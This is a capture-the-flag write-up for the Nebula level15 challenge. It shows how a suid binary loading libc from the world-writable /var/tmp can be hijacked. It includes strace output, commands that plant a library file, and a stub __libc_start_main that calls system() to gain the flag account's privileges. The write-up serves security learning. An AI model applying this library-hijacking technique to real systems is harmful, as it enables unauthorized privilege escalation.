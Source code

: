 ## Description:


[Problem source](https://exploit-exercises.com/nebula/level15/)


We are given an executable with suid bit set. As indicated by the problem
description, the program is most likely trying to load a shared library during
the runtime from an unsecured location.

## Solution


Stracing the executable shows that the program is trying to load dynamic
libraries from publicly writable directories.

	stat64("/var/tmp/flag15/sse2/cmov", 0xbfc67064) = -1 ENOENT (No such file or directory) 
	open("/var/tmp/flag15/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory) 
	stat64("/var/tmp/flag15/sse2", 0xbfc67064) = -1 ENOENT (No such file or directory)
	open("/var/tmp/flag15/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory) 
	stat64("/var/tmp/flag15/cmov", 0xbfc67064) = -1 ENOENT (No such file or directory) 
	open("/var/tmp/flag15/libc.so.6", O_RDONLY) = 3

We can compile our own libc and the program will most likely load it, as
/var/tmp/ is publicly writable folder.

First lets create a dummy file in the location `/var/tmp/flag15/libc.so.6` and
see if the program will try to load it.

	mkdir /var/tmp/flag15/
	touch /var/tmp/flag15/libc.so.6

Runnign the program again

	./flag15: error while loading shared libraries:
	/var/tmp/flag15/libc.so.6: file too short	

Good. Now the only thing left for us is to compile our own libc library. `ld` is
calling to the __libc_start_main when it first gets loaded in the memory. So we
can only implement this function and it will be automatically called by the
dynanmic linker. 

	int __libc_start_main(){
		system("/bin/getflag");
	}

## Lessons learned


Compiling the shared library had some problems. Will investigate further after
my ELF Article


Article about `strace` -- Coming up

